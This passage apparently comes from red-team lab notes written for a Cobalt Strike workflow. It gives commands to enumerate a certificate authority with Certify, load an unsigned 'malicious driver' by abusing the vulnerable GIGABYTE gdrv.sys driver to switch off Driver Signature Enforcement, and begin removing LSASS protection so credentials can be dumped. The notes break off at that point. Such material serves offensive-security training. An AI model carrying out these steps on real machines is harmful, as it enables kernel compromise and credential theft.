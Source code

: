 ```
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /ca:sub-ca.acme.corp\sub-ca
```

## Protected Processes

However, you cannot load drivers that are not legitimately signed unless Windows Test Signing mode is enabled.  For example, using an admin session Workstation 2, upload our malicious driver.

```
cd C:\Windows\System32\drivers
upload C:\Tools\RedOctober\RedOctober.sys
run sc create redoct type= kernel binPath= C:\Windows\System32\drivers\RedOctober.sys
```

Bypass DSE

Using old GIGABYTE driver, gdrv.sys to bypass DSE

```
upload C:\Tools\cobaltstrike\gdrv\gdrv.sys
run sc create gdrv type= kernel binPath= C:\Windows\System32\drivers\gdrv.sys
run sc start gdrv
```

BOF and aggressor script to disable dse:

```
disable_dse
```

Now the driver can be ran

```
run sc start redoct
```

and immediately turn DSE back on to avoid bricking the machine

```
enable_dse
```

The gdrv driver can then be unloaded and removed from the system

```
run sc stop gdrv
run sc delete gdrv
run gdrv.sys
```


### Dumping LSASS

Because protected processes are hierarchical, there are two ways to tackle this.

1. Remove the protection level from LSASS.
2. Elevate the protection level of a process we control to be greater than LSASS.

Use the BOF and aggressor script to call the correct IOCTL from the redoctober driver:
